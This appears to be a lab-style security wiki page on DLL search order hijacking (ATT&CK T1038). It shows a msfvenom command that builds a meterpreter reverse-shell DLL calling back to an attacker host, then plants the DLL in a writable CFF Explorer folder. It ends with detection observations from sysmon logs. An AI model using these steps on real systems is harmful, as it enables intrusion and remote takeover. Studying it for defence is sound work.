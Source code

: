 ```yaml
---
description: 'DLL Search Order Hijacking for privilege escalation, code execution, etc.'
---
```


# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which connect back to the attacking system with a meterpreter shell:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode %}

To illustrate this attack, we will exploit our beloved tool `CFF Explorer.exe` . Once the program is executed, it attempts to load `CFF ExplorerENU.dll` from the location the program is installed to, however that DLL cannot be loaded \(note the NAME NOT FOUND\) as it does not exist in the given path:

![](../../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! Let's move our evil DLL `evil-meterpreter64.dll` to `C:\Program Files\NTCore\Explorer Suite` and rename it to `CFF ExplorerENU.dll`

![](../../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found \(SUCCESS\):

![](../../.gitbook/assets/dll-success.png)

which is good news for the attacker - the DLL code gets executed, which gives attacker a meterpreter shell:

![](../../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no associated parent process and established connection - this should raise your suspicion immediately:

![](../../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives us a better understanding of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 \(`1872`\) which then established a connection to 10.0.0.5:

![](../../.gitbook/assets/dll-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1038" caption="" %}

{% embed url="https://pentestlab.blog/2017/03/27/dll-hijacking/" caption="" %}

